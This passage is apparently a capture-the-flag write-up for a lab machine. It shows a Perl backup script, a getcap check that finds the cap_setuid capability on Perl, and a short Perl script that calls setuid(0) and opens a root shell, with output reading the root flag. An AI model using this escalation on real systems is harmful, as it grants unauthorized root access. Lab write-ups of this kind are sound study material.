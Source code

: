 ```pl
    print "[", strftime("%D %T", localtime), "] $_[0]\n";
}

sub archive
{
    printlog "Archiving...";
    system("/usr/bin/tar -zcf $tmpbdir/backup_$now.tar $backup_main/* 2>/dev/null");
    printlog "Backup complete in $tmpbdir/backup_$now.tar";
}

if ($> != 0) {
    die "You must run this script as root.\n";
}

printlog "Backup starts.";
mkdir($tmpbdir);
&archive;
printlog "Moving $tmpbdir/backup_$now to /opt/web_backups";
system("/usr/bin/mv $tmpbdir/backup_$now.tar /opt/web_backups/");
printlog "Removing temporary directory";
rmdir($tmpbdir);
printlog "Completed";
```

The script started by changing the user id to 0, which is root, then it made a backup of the web sites. Changing your user id to root like that should not be possible. Unless it's suid bit was set, or some additional [capabilities](https://man7.org/linux/man-pages/man7/capabilities.7.html) were given to the program.

```bash
david@nunchucks:/opt$ getcap -r / 2>/dev/null
/usr/bin/perl = cap_setuid+ep
```

Perl was allowed to change the user id. I tried using the existing program. But I could not exploit anything. Then I realised that I could just create a new one. Any perl program had that capabilities, not just backup.pl.

```pl
# test.pl
#!/usr/bin/perl
use strict;
use POSIX qw(setuid);
POSIX::setuid(0);
system("/bin/bash -p");
```

I ran the program and I was root.

```bash
david@nunchucks:/tmp$ ./test.pl

root@nunchucks:/tmp# whoami
root

root@nunchucks:/tmp# cat /root/root.txt
REDACTED
```
